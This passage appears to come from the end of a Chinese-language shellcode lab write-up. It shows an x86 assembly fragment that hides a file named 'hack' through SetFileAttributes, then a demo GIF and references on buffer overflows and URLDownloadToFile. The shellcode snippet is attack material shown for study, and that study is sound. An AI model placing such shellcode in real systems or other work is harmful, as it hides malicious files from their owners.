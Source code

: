   ```
  push 0x6B636168         ; kcah
  mov ebx, esp
  xor edx, edx
  add edx, 2 		; FILE_ATTRIBUTE_HIDDEN
  push edx
  push ebx
  call eax
  ```
- 实验效果如下：<br>

  <img src="img/goose-hack-hidden.gif" alt="消失的无名之鹅" width=700px>

## 参考资料

- [Windows 管理用户账号](https://blog.csdn.net/weixin_44520274/article/details/86693403)
- [Buffer Overflow Attacks: Detect, Exploit, Prevent](https://books.google.com.hk/books?id=NYyKhOqOCF8C&pg=PA64&lpg=PA64&dq=mov+%09al,%0959%09%09%09;sys_execve&source=bl&ots=zbE4Xtl8nE&sig=ACfU3U3hHQ2-GoS2WajgsesvVZkMsYpsew&hl=en&sa=X&ved=2ahUKEwjS8KzrhYvpAhXEJaYKHVLaC5MQ6AEwAnoECAsQAQ#v=onepage&q=mov%20%09al%2C%0959%09%09%09%3Bsys_execve&f=false)
- [mmap(2) - Linux manual page](https://www.baidu.com/baidu?wd=mmap&ie=utf-8&tn=monline_4_dg)
- [URLDownloadToFile function](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85))
- [SetFileAttributesA function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-setfileattributesa?redirectedfrom=MSDN)